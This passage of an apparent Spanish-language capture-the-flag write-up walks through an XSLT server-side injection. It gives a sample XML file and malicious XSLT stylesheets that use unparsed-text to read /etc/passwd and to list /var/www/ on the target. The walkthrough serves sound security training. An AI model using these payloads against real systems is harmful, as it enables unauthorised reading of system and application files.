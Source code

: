 Tras estar buscando nos encontramos con un artículo de [HackTricks](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations#read-local-file) donde se nos explican varios métodos para poder explotar este tipo de archivos.

En particular nos llama la atención un apartado el cual nos explica cómo poder leer ficheros internos. Vamos a verlo.

Primero comenzaremos por crearnos un archivo **XML** (`xml.xml`, el nombre no importa) y copiar lo siguiente:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<catalog>
    <cd>
        <title>CD Title</title>
        <artist>The artist</artist>
        <company>Da Company</company>
        <price>10000</price>
        <year>1760</year>
    </cd>
</catalog>
```

Una vez tengamos el contenido del fichero **XML** pasaremos al siguiente. Como vamos a leer el contenido de un fichero lo llamaré `read.xslt`:

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```

Bien, ya tenemos todo preparado, ahora toca subir estos dos archivos (cada uno en el campo que toca):

![passwd](/assets/img/imgs/omura/passwd.png)

¡Wow! Hemos podido leer el contenido del fichero `/etc/passwd`{: .filepath }, pero por desgracia no nos sirve de nada.

Ahora que sabemos cómo funciona podemos cambiar un poco el **XLS** para que apunte a un directorio y, así, ver su contenido:

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/var/www/', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```

